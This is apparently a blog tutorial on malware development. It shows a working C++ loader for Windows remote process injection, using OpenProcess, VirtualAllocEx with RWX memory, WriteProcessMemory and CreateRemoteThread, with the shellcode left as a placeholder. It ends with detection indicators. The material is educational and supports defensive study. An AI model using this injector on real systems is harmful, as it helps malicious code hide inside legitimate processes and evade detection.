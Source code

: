 ```yaml
---
title: Remote process injection
published: true
categories: [Malware dev, C++]
tags: [Malware dev, C++, Process injection]
author: Alejandro Rivera
pin: false
image:
  path: https://github.com/Krypteria/Offensive_CPP/assets/55555187/e7d5eef8-559c-4c02-b2a2-eeb0462fa334
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA

---
```


This is the first post of a few that I will be publishing related to malware development (or attempt to) in C++. This series of posts have no pretension, my main goal is to publish my progress in this area as a blog and use them to consolidate my knowledge, if they can also be useful to someone else, good ^^. With all this clarified, this first post will deal with the remote process injection technique.

Remote process injection is one of the oldest injection techniques in existence and although it is not extremely sophisticated (due to the fact that in the past there were no security measures as effective in detecting this type of technique as modern EDRs) it is a good place to start this series to gain knowledge that will be necessary in more complex techniques (as they say in my country, you should not start the house from the roof).

Let's start with the basics, what does the remote process injection technique consist of? 

This technique consists, roughly speaking, of hiding the execution of a set of instructions within a legitimate process, trying to make the execution as unnoticed as possible. For example, let's take the following images:

![suspicious binary](..\assets\img\posts\remote_process_injection\sus_binary.png)

In this image we can see a custom binary that opens a cmd.exe process which in turn runs a conhost.exe. At first glance it looks quite suspicious. Now let's look at the next image:

![less suspicious binary](..\assets\img\posts\remote_process_injection\less_sus_binary.png)

While it is true that we have the same scenario, (a binary running cmd.exe and in turn conhost.exe), this time it is not an ordinary binary, it is an operating system binary, which could raise doubts about its legitimacy.

Now that we have seen the potential of this technique, let's see how we can program it in C++ and what is the logic behind it.

Let's start, the first thing we have to do is to obtain a Handle of the process we want to use. A Handle of a process is nothing more than an identifier that allows us to interact with it, you can see it as the descriptor of a file if we were working with files. 

To obtain this Handle I will make use of the [OpenProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) function of the Windows API (it is vital to familiarise ourselves with the official Windows documentation as we will spend many hours reading it).

```c++
DWORD pid = atoi(argv[1]);

HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, pid);

if (hProcess == NULL){
    printf("%s Cannot get the handle to the process\n", err);
    return EXIT_FAILURE;
}

printf("%s Handle to the process obtained\n", ok);
```

Once we have obtained the Handle, we can start interacting with the process :). 

The next step is to allocate memory in the remote process to host our payload there. To do this, we will use the [VirtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) function of the Windows API, another alternative could be the **NtAllocateVirtualMemory** function of the **Undocumented Windows API**. The choice of which function to use in the end will depend on the needs we have.

```c++
unsigned char shellcode[]="Your epic shellcode here";

LPVOID bAddress = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

if(bAddress == NULL){
    printf("%s Cannot allocate memory for the shellcode\n", err);
    return EXIT_FAILURE;
}

printf("%s Memory allocated succesfully at %p\n", ok, bAddress);
```

The VirtualAllocEx function returns a pointer to the beginning of the memory space we have reserved. We will use this pointer to tell the [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) function where we want to write the contents of the shellcode variable. 

```c++
if(WriteProcessMemory(hProcess, bAddress, shellcode, sizeof(shellcode), NULL) == 0){
    printf("%s Cannot write on memory, error %s\n", err, GetLastError());
    return EXIT_FAILURE;
}

printf("%s Memory written succesfully\n", ok);
```

Once we have the shellcode content written in the process memory, the only thing we need to do to execute it is simply to create a Thread that starts its execution at the memory address where the shellcode is hosted. To do this, we will again use the pointer to the memory address returned by VirtualAllocEx and the Handle obtained by OpenProcess in the [CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread) function.

```c++
HANDLE hRemote = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)bAddress, NULL, 0, NULL);

if(hRemote == NULL){
    printf("%s Cannot get the handle to the remote process\n", err);
    return EXIT_FAILURE;
}

printf("%s Remote thread executed succesfully\n", ok);

CloseHandle(hRemote);
CloseHandle(hProcess);

return EXIT_SUCCESS;
```

Once we have completed these steps, we compile the program and we will have an executable capable of performing this technique. The complete code can be found in the [Offensive CPP](https://github.com/Krypteria/Offensive_CPP) repository on my Github

Let's see what the execution of the complete code looks like:
![remote process injection](..\assets\img\posts\remote_process_injection\remote_process_injection.png)

As you can see in the image, we have managed to inject the shellcode in the process notepad.exe, if we go to the memory address reserved by VirtualAllocEx we can observe several things

- The memory space has been reserved as type **Private: Commit**
- The memory space has **RWX permissions**
- The shellcode has been written correctly ( as a payload created by msfvenom, it is obfuscated).

These three observations already show us some of the problems of this technique in terms of evading modern security measures. Just with what we have discussed in the previous paragraph we can already extract the following IOCs (Indicators of Compromise):

- Memory allocation using win32 API calls
- Creation of a Thread that points to a private memory space
- Private memory space with execution permissions

There are many more IOCs you can find in this post by [Mitre](https://attack.mitre.org/techniques/T1055/)

With all of this, it is fundamental to understand this technique for future sophistications or more advanced techniques that I will publish :)
